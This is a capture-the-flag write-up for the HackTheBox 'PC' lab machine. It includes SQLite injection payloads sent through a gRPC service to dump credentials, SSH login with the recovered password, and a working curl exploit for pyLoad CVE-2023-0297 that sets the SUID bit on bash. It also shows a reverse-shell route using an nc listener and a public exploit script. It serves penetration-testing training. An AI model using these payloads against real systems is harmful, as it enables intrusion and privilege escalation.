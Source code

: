 ## HackTheBox PC

An Easy level CTF lab machine of the HackTheBox platform running Linux containing a gRPC service with SQL Injection, password reuse and a public exploit.

## Service Overview

The machine is assigned IP address 10.10.11.214, let's scan the ports with Nmap:

```bash
$ nmap -A -p- -Pn -T4 10.10.11.214

PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
```

Port 50051 – gRPC service.

## grpcui

Let's use the graphical representation of grpcui - https://github.com/fullstorydev/grpcui.

```bash
$ ./grpcui --plaintext 10.10.11.214:50051
gRPC Web UI available at http://127.0.0.1:41859/
```

And this will lead us to a web interface where we can interact with the service.
As it can be seen that the same methods are available here as well. We can try to interact with the RegisterUser method and see if we get any response.
As we send this request, we get a response saying that the account has been created for this user.
We can use the same credentials now and try to login to the service with the LoginUser method.
It does work and we get 2 things in the response:

- Our ID in the response data
- A Token in the response trailer

Now, we can test the last method getInfo and see if we get any response.

So, here all that we need to do is just enter the id that we want to look up. We can try the id value that we got by logging in and see if we get any response.
Looks like this did not work as we had not provided the token in the request. So, we can try to add the token that we received while logging in in the request metadata and see if we get any successful response.

```bash
token    b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODkxMTM4Nzh9.guIZNYmKATLWgTSlE5i6wKnNPJDAfuYUlXGg5Wf6FSc'
```

And this time the request goes through successfully and we get a response with a message in it.

Send that request with "id" parameter is vulnerable to sqlite injection. Below example vulnerable requests:

```sql
0 union SELECT username FROM accounts WHERE username NOT like 'sqlite_%' limit 1--

0 union SELECT username FROM accounts LIMIT 1 OFFSET 1;

{
  "message": "sau"
}

0 union SELECT GROUP_CONCAT(password) FROM accounts;
{
  "message": "admin,HereIsYourPassWord1431"
}
```

In this way you can get user and passwd for SSH ```sau:HereIsYourPassWord1431```.

## User flag

```bash
$ ssh sau@10.10.11.214                             
HereIsYourPassWord1431
-bash-5.0$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)
-bash-5.0$ ls -la
total 44
drwxr-xr-x 5 sau  sau  4096 Jul 11 17:31 .
drwxr-xr-x 3 root root 4096 Jan 11 18:10 ..
lrwxrwxrwx 1 root root    9 Jan 11 18:08 .bash_history -> /dev/null
-rw-r--r-- 1 sau  sau   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 sau  sau  3771 Feb 25  2020 .bashrc
drwx------ 2 sau  sau  4096 Jan 11 17:43 .cache
drwxrwxr-x 3 sau  sau  4096 Jul 11 11:23 .local
-rw-r--r-- 1 sau  sau   807 Feb 25  2020 .profile
drwx------ 2 sau  sau  4096 Jul 11 11:01 .ssh
-rw------- 1 sau  sau  1125 Jul 11 17:31 .viminfo
-rw-rw-r-- 1 sau  sau    55 Jul 11 14:25 bash.sh
-rw-r----- 1 root sau    33 Jul 11 10:42 user.txt
-bash-5.0$ cat user.txt 
ea0e2870b02b9c983ef9e371fb6e90e7
```

## Privilege escalation

Let's see what ports are open. We see an application on port 8000 looking at 127.0.0.1.

```bash
$ find / -perm /4000 2>/dev/null
$ netstat -tulpn
```

There is 8000 port running, and the service running on it is pyLoad. There is a CVE related to it https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad.

```bash
$ curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'

$ /bin/bash -p

bash-5.0# cat root.txt 
f09c10a5010a1e5e4d2bed5a61c864de
```
or

Let's redirect the port using SSH.

```bash
$ ssh -L 127.0.0.1:8000:127.0.0.1:8000 sau@10.10.11.214
HereIsYourPassWord1431
```
Access the server on the browser by entering the following URL: http://127.0.0.1:8000/.

After trying default credentials without success, I conducted a search for vulnerabilities and discovered that pyLoad has a vulnerability (CVE-2023–0297).

After some searching I got an exploit to this CVE using Python here - https://github.com/JacobEbben/CVE-2023-0297.

Set up a listener on port 4444 on the local machine.

```bash
$ nc -lnvp 4444
```

Using exploit.py to get the root:

python3 exploit.py -t http://127.0.0.1:8000 -I 10.10.16.19 -P 4444

And finally rooted.

```bash
bash-5.0# cat root.txt 
f09c10a5010a1e5e4d2bed5a61c864de
```